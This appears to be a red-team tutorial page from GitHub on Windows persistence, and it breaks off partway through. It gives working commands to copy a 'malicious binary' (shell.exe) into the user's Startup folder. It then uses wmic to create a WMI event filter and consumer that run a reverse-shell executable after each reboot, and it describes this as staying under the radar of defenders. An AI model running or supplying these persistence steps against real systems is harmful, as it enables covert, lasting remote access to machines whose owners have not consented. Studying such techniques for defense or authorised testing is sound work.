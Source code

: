 ### Startup Folder:

After a reboot or user logon, the Windows operating system executes executable files located in the Startup folder. Typically, these files include the following:

```bash
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

In this case, you only need to run a single command, which simply copies the malicious binary to this path:

```bash
copy "shell.exe" "C:\Users\s12de\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\shell.exe"
```

![image](https://github.com/user-attachments/assets/95993ebd-be52-4548-ae73-6db0b214f30d)

![image](https://github.com/user-attachments/assets/49304596-dea0-43eb-baf5-1b26b66b33b3)



### WMIC:

> Persistence - WMI Event Subscription
Windows Management Instrumentation (WMI) enables system administrators to perform tasks locally and remotely. [pentestlab.blog](https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/)

Windows Management Instrumentation (WMI) allows system administrators to manage tasks both locally and remotely. From a red team perspective, WMI can be leveraged for various activities such as lateral movement, persistence, situational awareness, code execution, and even as a [command and control](https://pentestlab.blog/2017/11/20/command-and-control-wmi/) (C2) mechanism. 
Since WMI is a built-in component present in nearly all Windows operating systems (from Windows 98 to Windows 10), it enables these offensive actions to remain under the radar of blue team defenses.

The executable will initiate a reverse shell session within 60 seconds of each reboot.

In this case i need to execute 3 commands:

```bash
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="persistence", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
```

![image](https://github.com/user-attachments/assets/701b87a8-5abb-4c3a-ab86-109daf01e655)

</br>

```bash
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="persistence", ExecutablePath="C:\windows\system32\tita.exe",CommandLineTemplate="C:\Users\s12de\Downloads\shell.exe"
```

![image](https://github.com/user-attachments/assets/ba34fe6a-ad76-46c1-b052-1d45b3d3df0d)
